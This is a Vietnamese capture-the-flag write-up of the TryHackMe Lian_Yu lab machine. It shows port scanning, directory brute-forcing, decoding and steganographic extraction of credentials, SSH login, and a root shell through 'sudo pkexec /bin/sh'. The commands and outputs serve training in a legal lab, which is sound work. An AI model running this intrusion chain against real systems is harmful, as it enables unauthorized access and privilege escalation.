


Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Lian_Yu](https://tryhackme.com/room/lianyu)
## Reconnaissance

Vẫn như thông thường, việc đầu tiên cần làm quét các cổng đang mở trên máy chủ mục tiêu.

```python
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 5650bd11efd4ac5632c3ee733ede87f4 (DSA)
|   2048 396f3a9cb62dad0cd86dbe77130725d6 (RSA)
|   256 a66996d76d6127967ebb9f83601b5212 (ECDSA)
|_  256 3f437675a85aa6cd33b066420491fea0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43991/tcp   status
|   100024  1          50671/udp6  status
|   100024  1          53634/udp   status
|_  100024  1          58301/tcp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tôi thử qua ftp với user Anonymous nhưng không có kết quả, vậy nên tôi sẽ bắt đầu với web - port 80


Sử dụng *dirsearch* thì tôi tìm thấy path ẩn là */island/*



Vào phần source web thì tôi tìm được Code Word là `vigilante`, tôi cũng chưa biết code này để làm gì nhưng cứ lưu nó lại đã

Tiếp dùng *dirsearch* thêm 1 lần nữa tôi có 1 path khác là */2100* 

Truy cập vào path này và tôi tìm được 1 thứ khác trong phần source web

```python
<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>

<p align=center >
<iframe width="640" height="480" src="[https://www.youtube.com/embed/X8ZiFuW41yY](view-source:https://www.youtube.com/embed/X8ZiFuW41yY)">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>
```

Vậy là file ẩn có đuôi `.ticket`. Tôi sẽ sử dụng *dirsearch* thêm 1 lần nữa và thêm extension là `.ticket`

```python
┌──(neo㉿kali)-[~]
└─$ dirsearch -u 10.10.171.203/island/2100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e ticket
```

Tôi tìm được `green_arrow`


Với Hint sử dụng CyberChef, tôi tìm decode được mã trên với base58.

Login nó với ftp và sử dụng user *vigilante*

```python
┌──(neo㉿kali)-[~]
└─$ ftp 10.10.171.203
Connected to 10.10.171.203.
220 (vsFTPd 3.0.2)
Name (10.10.171.203:neo): vigilante
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||38540|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
ftp> 
```

Lấy cả 3 ảnh này về để phân tích. Trong này có 2 ảnh Quenn và aa là có thể xem được còn ảnh Leave_me_alone thì không. Tôi sẽ up nó lên *hexed.it để phân tích 



8 byte ký hiệu đầu tiên của file png này không đúng (hoặc đã bị thay đổi). Tôi sẽ sửa lại nó và export ra ảnh mới


Ảnh này và aa đều có điểm chung là về những tay súng, nên tôi nghĩ chúng có thể liên quan đến nhau chăng?

Tôi sẽ thử dùng steghide phân tích ảnh aa với passphrase là `password`

```python
┌──(neo㉿kali)-[~]
└─$ steghide extract -sf aa.jpg
Enter passphrase: 
wrote extracted data to "ss.zip".
```

Được luôn! Giải nến tệp này

```python
┌──(neo㉿kali)-[~]
└─$ unzip ss.zip 
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado                   
                                           
┌──(neo㉿kali)-[~]
└─$ cat passwd.txt             
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
                                            
┌──(neo㉿kali)-[~]
└─$ cat shado     
M3tahuman
```

Bây giờ tôi đã có 1 password nhưng chưa có username, nhìn lại chiếc ảnh về người đàn ông này, tôi thử tìm kiếm trên gg bằng bức ảnh này và người trong ảnh tên là Slade Wilson a.k.a Deathstroke

Thử login ssh với tên Slade 

```python
┌──(neo㉿kali)-[~]
└─$ ssh slade@10.10.59.181
The authenticity of host '10.10.59.181 (10.10.59.181)' can't be established.
ED25519 key fingerprint is SHA256:DOqn9NupTPWQ92bfgsqdadDEGbQVHMyMiBUDa0bKsOM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:77: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.59.181' (ED25519) to the list of known hosts.
slade@10.10.59.181's password: 
                            Way To SSH...
                        Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ id
uid=1000(slade) gid=1000(slade) groups=1000(slade),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
slade@LianYu:~$ ls
user.txt
```

## Privilege escalation

`sudo -l`

```python
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ 
```

[pkexec | GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/)

```python
slade@LianYu:~$ sudo pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
# 
```
